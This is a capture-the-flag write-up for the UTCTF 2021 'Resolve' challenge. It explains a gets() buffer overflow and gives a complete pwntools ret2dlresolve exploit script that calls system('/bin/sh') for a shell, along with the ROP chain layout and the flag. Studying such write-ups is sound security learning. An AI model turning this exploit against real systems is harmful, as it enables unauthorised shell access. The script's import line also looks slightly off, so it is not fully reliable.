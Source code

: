 ```yaml
---
layout: post
title: [UTCTF 2021] Resolve
author: Kevin Zhang
---
```


We are given a very barebones binary that looks like this:

```
int main(void)

{
  char local_10 [8];
  
  gets(local_10);
  return 0;
}

```
Now the vulnerability is a classic buffer overflow but the problem is that this is all there is in the binary. There isn't any libc addresses in the stack or in any of the registers when we return. Since we can't find an address leak that means we can't just find the address of `system()` and create a rop chain using that. After some digging I was able to find that the attack is called a ret2dlresolve. Here is a blog with more info about that: https://ypl.coffee/dl-resolve/  

Now what we could do is write a ret2dlresolve payload by hand such as the one [here]. No thanks. Fortunately, pwntools has a ret2dlsresolve module that will automatically generate the payloads for you. So our payload ends up being something like this:

```
from pwntools import *
context.binary = elf = ELF('resolve')
rop = ROP(elf)

dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["/bin/sh"])

# Allows us to write to any location. We want to write to where the dlresolve payload will be
rop.gets(dlresolve.data_addr)

# RET gadget for stack alignment.
rop.raw(0x00401159) 

# The dlresolve payload
rop.ret2dlresolve(dlresolve)

# Put it together
raw_rop = rop.chain()

p = elf.process()

# First gets() to setup the rop chain to write to the correct address
p.sendline(fit({8+context.bytes: raw_rop})) 

# Second gets() to send the dlresolve payload.
p.sendline(dlresolve.payload) 
p.interactive()
```

The rop chain looks something like this:

```
0x0000:         0x4011c3 pop rdi; ret                                                                                   
0x0008:         0x404e00 [arg0] rdi = 4214272                                                                           
0x0010:         0x401044 gets(arg0)                                                                                           
0x0018:         0x401159 ret; #for stack alignment                                                                   
0x0020:         0x4011c3 pop rdi; ret                                                                                   
0x0028:         0x404e50 [arg0] rdi = 4214352                                                                           
0x0030:         0x401020 [plt_init] system                                                                             
0x0038:         0x310 [dlresolve index]
```

Our overall program flow will look like `main()->pop rdi->gets()->pop rdi->system()->_dl_runtime_resolve()->system()`. The `pop rdi`'s are to setup arguments to functions later in the chain.

So just aim this at the server and ye shall receive the flag.  
`utflag{2_linker_problems_in_one_ctf?8079235}`

It's pretty cool that we can still call libc functions without the use of address leaks. This exploit will definitely be something that I keep in mind for the future. Although it was really simple for this challenge due to no PIE which probably simplified where we could put the dlpayload. Also pwntools is an awesome tool and thank god it exists.



[here]: (https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62)